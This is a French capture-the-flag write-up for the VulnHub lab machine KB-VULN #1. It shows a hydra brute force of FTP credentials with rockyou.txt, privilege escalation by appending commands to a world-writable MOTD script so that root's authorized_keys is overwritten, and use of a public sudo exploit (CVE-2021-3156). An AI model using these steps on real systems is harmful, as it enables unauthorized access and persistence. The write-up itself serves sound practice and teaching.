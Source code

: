 ```yaml
---
title: Solution du CTF KB-VULN #1 de VulnHub
tags: [CTF, VulnHub]
---
```


Rapide et furieux
-----------------

Combien de temps faut-il pour résoudre un CTF ? Tout dépend bien sûr de la difficulté du challenge et des compétences du joueur.  

Pour celui-ci ([KB-VULN n°1](https://www.vulnhub.com/entry/kb-vuln-1,540/)) on est bien plus près des minutes que des heures, il n'en reste pas moins qu'on peut s'amuser (vite fait).  

```
Nmap scan report for 192.168.56.5
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: OneSchool — Website by Colorlib
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Dans le FTP on trouve un fichier *.bash\_history*. Est-ce le dossier personnel d'un utilisateur quelconque ? Dans tous les cas on ne dispose pas d'accès en écriture donc on s'arrête là.  

Une énumération de la racine web ne remonte rien, mais un coup d'œil à la source de la page d'index permet de trouver un nom d'utilisateur :  

```html
<!-- Username : sysadmin -->
```

Aussitôt dit, aussitôt cracké :  

```
$ ./hydra -l sysadmin -P rockyou.txt -e nsr ftp://192.168.56.5
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344407 login tries (l:1/p:14344407), ~896526 tries per task
[DATA] attacking ftp://192.168.56.5:21/
[21][ftp] host: 192.168.56.5   login: sysadmin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Cet identifiant permet l'accès au FTP mais surtout au SSH où l'on retrouve un premier flag.  

```
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
```

Cet utilisateur fait partie des groupes sudo et lxd :  

```
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Un petit coup de LinPEAS indique que le fichier */etc/update-motd.d/00-header* appartenant à root mais est word-writable.  

D'après [la page de manuel](https://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html) :  

```
Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at
each  login,  and  this  information  is  concatenated in /run/motd.dynamic.
```

Le script actuel est le suivant :  

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
```

Je rajoute ces lignes :

```bash
echo $(id)
mkdir -p /root/.ssh
echo 'ssh-rsa --ma-cle-publique-ssh--' > /root/.ssh/authorized_keys
```

Et effectivement si je me reconnecte :  

```
$ ssh sysadmin@192.168.56.5
sysadmin@192.168.56.5's password: 

                        WELCOME TO THE KB-SERVER

uid=0(root) gid=0(root) groups=0(root)
```

Ce qui prouve que le script a été exécuté en root et que je me suis rajouté un accès.  

```
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

On peut aussi obtenir l'accès root via [l'exploit pour sudo](https://github.com/worawit/CVE-2021-3156) utilisé sur le précédent CTF (Fawkes) :  

```
sysadmin@kb-server:~/CVE-2021-3156-main$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(sysadmin)
```


*Published December 07 2021 at 21:51*
